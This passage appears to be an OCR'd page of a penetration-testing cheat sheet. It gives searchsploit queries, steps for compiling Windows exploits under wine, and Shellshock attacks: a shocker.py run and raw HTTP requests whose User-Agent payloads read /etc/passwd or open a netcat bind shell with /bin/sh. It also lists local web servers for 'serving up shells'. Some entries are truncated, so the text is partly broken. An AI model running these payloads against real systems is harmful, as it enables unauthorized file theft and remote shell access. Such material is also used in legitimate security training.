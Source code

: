  searchsploit –u
 searchsploit apache 2.2
 searchsploit "Linux Kernel"
 searchsploit linux 2.6 | grep -i ubuntu | grep local
Compiling Windows Exploits on Kali
  wget -O mingw-get-setup.exe http://sourceforge.net/projects/mingw/files/Installer/mingw-get-setup.exe/download
  wine mingw-get-setup.exe
  select mingw32-base
  cd /root/.wine/drive_c/windows
  wget http://gojhonny.com/misc/mingw_bin.zip && unzip mingw_bin.zip
  cd /root/.wine/drive_c/MinGW/bin
  wine gcc -o ability.exe /tmp/exploit.c -lwsock32
  wine ability.exe  
Cross Compiling Exploits
gcc -m32 -o output32 hello.c (32 bit)
gcc -m64 -o output hello.c (64 bit)
Exploiting Common Vulnerabilities
Exploiting Shellshock
A tool to find and exploit servers vulnerable to Shellshock:

git clone https://github.com/nccgroup/shocker
./shocker.py -H TARGET  --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose
cat file (view file contents)
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc TARGET 80
Shell Shock run bind shell
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc TARGET 80
Shell Shock reverse Shell
nc -l -p 443
Simple Local Web Servers
Python local web server command, handy for serving up shells and exploits on an attacking machine.

COMMAND	DESCRIPTION
python -m SimpleHTTPServer 80

Run a basic http server, great for serving up shells etc

python3 -m http.server

Run a basic Python3 http server, great for serving up shells etc

ruby -rwebrick -e "WEBrick::HTTPServer.new
(:Port => 80, :DocumentRoot => Dir.pwd).start"

Run a ruby webrick basic http server

php -S 0.0.0.0:80

Run a basic PHP http server

Mounting File Shares
How to mount NFS / CIFS, Windows and Linux file shares.

COMMAND	DESCRIPTION
mount 192.168.1.1:/vol/share /mnt/nfs
